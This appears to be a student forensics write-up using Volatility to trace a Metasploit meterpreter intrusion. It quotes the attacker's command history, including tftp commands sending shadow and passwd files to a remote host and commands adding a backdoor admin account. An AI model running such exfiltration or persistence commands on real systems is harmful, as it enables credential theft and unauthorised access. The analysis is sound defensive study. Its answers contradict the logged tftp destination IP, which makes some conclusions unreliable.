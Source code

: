 # Writeup


Using plugins `cmdscan` and `consoles` we found evidence of an attacker trying to create a new user and add it to the local administrators group. The attacker also tried to exfiltrate the `shadow` and `passwd` files using `ftp` and `tftp` commands.

These commands were run by a child of `csrss.exe` (Pid 684), here is an extract of these commands :

```
**************************************************
CommandProcess: csrss.exe Pid: 684
CommandHistory: 0x10986f8 Application: cmd.exe Flags: Allocated, Reset
CommandCount: 9 LastAdded: 8 LastDisplayed: 8
FirstCommand: 0 CommandCountMax: 50
ProcessHandle: 0x5b4
**************************************************
cd C:\
mkdir system32
cd system32
ftp 192.168.174.128
tftp 192.168.1.104 put shadow
tftp 192.168.1.104 put passwd
net user admin * /add 
net localground Administrators admin /add #OOOPS
net localgroup Administrators admin /add
```

Using `pstree` we can see that a `cmd.exe` is running as a child of `svchost.exe` (Pid 1136) which is a child of our `csrss.exe` (Pid 684).

```
Name                                                  Pid   PPid   Thds   Hnds Time
-------------------------------------------------- ------ ------ ------ ------ ----
.. 0x89953020:csrss.exe                               684    620     11    409 2013-08-15 22:55:10 UTC+0000
.. 0x8969f020:winlogon.exe                            708    620     22    522 2013-08-15 22:55:10 UTC+0000
... 0x8998b680:wpabaln.exe                           1428    708      1     58 2013-08-15 22:57:13 UTC+0000
... 0x8994dca8:services.exe                           752    708     16    268 2013-08-15 22:55:10 UTC+0000
.... 0x895213c0:svchost.exe                           132    752      6     88 2013-08-15 22:55:31 UTC+0000
.... 0x8989a980:vmtoolsd.exe                          272    752      8    268 2013-08-15 22:55:32 UTC+0000
.... 0x8994f458:vmacthlp.exe                          924    752      1     25 2013-08-15 22:55:10 UTC+0000
.... 0x899a1a00:svchost.exe                          1184    752      6     70 2013-08-15 22:55:12 UTC+0000
.... 0x89b60998:svchost.exe                          1284    752     14    195 2013-08-15 22:55:12 UTC+0000
.... 0x896a1b10:svchost.exe                           936    752     19    202 2013-08-15 22:55:11 UTC+0000
.... 0x895e9618:svchost.exe                           996    752     10    238 2013-08-15 22:55:11 UTC+0000
.... 0x89679608:alg.exe                              1768    752      6    101 2013-08-15 22:55:40 UTC+0000
.... 0x89a54650:spoolsv.exe                          1644    752     14    145 2013-08-15 22:55:13 UTC+0000
.... 0x89a90da0:svchost.exe                          1136    752     68   4423 2013-08-15 22:55:11 UTC+0000
..... 0x89985c08:wscntfy.exe                         1588   1136      1     28 2013-08-15 22:55:40 UTC+0000
..... 0x8950a020:cmd.exe                              440   1136      1     33 2013-08-15 22:56:01 UTC+0000
..... 0x8992fb08:wmiadap.exe                          364   1136      5    172 2013-08-15 22:59:40 UTC+0000

```

So now the `svchost.exe` (Pid 1136) is suspicious, let's have a look at it.

Looking at the network connections using `sockets` we can see that the `svchost.exe` (Pid 1136) is actively listening on all interfaces on port 4444.

```

Offset(V)       PID   Port  Proto Protocol        Address         Create Time
---------- -------- ------ ------ --------------- --------------- -----------
0x896b87c0     1136    123     17 UDP             192.168.174.148 2013-08-15 22:55:40 UTC+0000
0x896e36d8     1136    123     17 UDP             127.0.0.1       2013-08-15 22:55:40 UTC+0000
0x898ad978     1136   4444      6 TCP             0.0.0.0         2013-08-15 22:56:00 UTC+0000

```

Knowing that `4444` is a common port used by `msf` (metasploit) we can assume that this process is a even more malicious.

From now we can assume that it is most likely a reverse shell, so we can use `connections` to see if there is any active connection...

Here you go...

```
Offset(V)  Local Address             Remote Address            Pid
---------- ------------------------- ------------------------- ---
0x8966bd30 192.168.174.148:4444      192.168.174.1:58719       1136

````

So we can assume that the attacker is using a reverse shell to connect to the machine.

The attacker is most likely using `msf` (metasploit) to get a reverse shell, so we can assume that the attacker is using a `meterpreter` shell.

After quick research about how `meterpreter` works, we found out that "Meterpreter is an advanced, dynamically extensible payload that uses in-memory DLL injection stagers and is extended over the network at runtime." [https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/](https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/)

Let's use `malfind` to explore the potential strange VADS in here.

Hooray ! We found something interesting...

```
Process: svchost.exe Pid: 1136 Address: 0x2df0000
Vad Tag: VadS Protection: PAGE_EXECUTE_READWRITE
Flags: CommitCharge: 109, MemCommit: 1, PrivateMemory: 1, Protection: 6

0x0000000002df0000  4d 5a e8 00 00 00 00 5b 52 45 55 89 e5 81 c3 89   MZ.....[REU.....
0x0000000002df0010  0e 00 00 ff d3 89 c3 57 68 04 00 00 00 50 ff d0   .......Wh....P..
0x0000000002df0020  68 e0 1d 2a 0a 68 05 00 00 00 50 ff d3 00 00 00   h..*.h....P.....
0x0000000002df0030  00 00 00 00 00 00 00 00 00 00 00 00 f0 00 00 00   ................

```

Based on the criteria seen in class :

* Full commited page -> YES
* RWX page -> YES
* Private memory -> YES
* No mapped file (VadS) -> YES
* MZ header -> YES

So `svchost.exe` (Pid 1136) is no more a suspicious process, it is most likely a malicious one.

We dumped the injected exectuable at `0x2df0000`, we ran `strings` on it and we found out that it is really a `meterpreter` shell :

here's an extract of some strings that "proves" that it is a `meterpreter` shell :

* `ReflectiveLoader` -> as described in [https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/](https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/) the stager uses ReflectiveLoader to load the DLL into memory.
* ImpersonateLoggedOnUser  -> this is a typical function used by `meterpreter` to impersonate the user.

In short, the attacker used `metasploit` to get a `meterpreter` reverse shell, the process where it has been injected is `svchost.exe` (Pid 1136).

The attacker then ran a `cmd` from there, he connected himself as root via `ftp` to a remote machine (192.168.174.128) where he downloaded `shadow` and `passwd` to the infected machine (192.168.174.148). He then used `tftp` to exfiltrate the files to his machine (192.168.1.104). 

He then created an `admin` account to achieve persistence on the machine (he can now on connect himself with the `admin` account)

# Questions

## What tool was used to compromise the system?

The attacker used `metasploit` to get a `meterpreter` reverse shell on the victim machine (192.168.174.148)

## What was the IP address of the attacker's machine?

The attacker's machine IP address is `192.168.174.1` (the attacker exfiltrate data to this machine + the attacker connected himself to the victim machine via this IP address)

## What directory was created to store the files before exfiltration?

The attacker created a directory called `system32` in the `C:\` directory.

## Where was data exfiltrated from?

The attacker exfiltrated data from a Debian `ftp` server running on (192.168.174.128)

## How was exfiltration performed?
From the infected machine, he connected himself to the `ftp` server via `ftp` and downloaded the `shadow` and `passwd` files to the infected machine. He then used `tftp` to exfiltrate the files to his machine (192.168.174.1)

## How was persistence maintained?

The attacker created an `admin` account to achieve persistence on the machine (he can now on connect himself with the `admin` account)